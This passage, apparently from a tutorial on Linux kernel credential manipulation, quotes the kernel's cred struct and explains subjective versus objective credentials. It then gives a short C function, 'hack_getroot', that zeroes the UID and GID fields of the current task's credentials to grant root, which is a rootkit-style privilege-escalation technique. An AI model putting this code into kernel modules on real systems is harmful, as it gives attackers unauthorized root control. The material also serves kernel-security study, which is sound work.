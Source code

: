 ```c
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
#ifdef CONFIG_KEYS
	unsigned char	jit_keyring;	/* default keyring to attach requested
					 * keys to */
	struct key __rcu *session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
} __randomize_layout;

```



There are three credential for a process. For the first one, it's reasonable to assume that it stands for the tracer's credential. And the for the rest two, the documentation of *cred* struct have clearly explained how the they work

1. the *real_cred* in *task_struct* is called objective context. It is reffered to when the task is being acted on.
2. the *cred* in *task_struct* is called the subjective context, and it is reffered to when the task is trying to act on something else, like opening a file or fork a new process.



​	Generally, when we want to modify a process's credential, we only need to to modify its *cred* struct, which stands for the "subjective" context. To make a process run as root, we simply overwrite the *uid*, *gid*, *suid*, *sgid*, *euid*, *egid*, *fsuid*, *fdgid* (8 fields in total) to 0 to give a process highest credential to do almost evething, including prompt us a root shell.

​	The implementation is as follow

```c
static int hack_getroot(void){
    int* ids;
    int i;
    // the macro current is defined in arch/x86/include/asm/current.h, which will return us the pointer to current task struct
    // the cred field is defined as static, so must be changed by dereferrecing its pointer
    ids = (int*)current->cred;
    for(i=1;i<9;i++) ids[i] = 0;
    return 1;
}
```
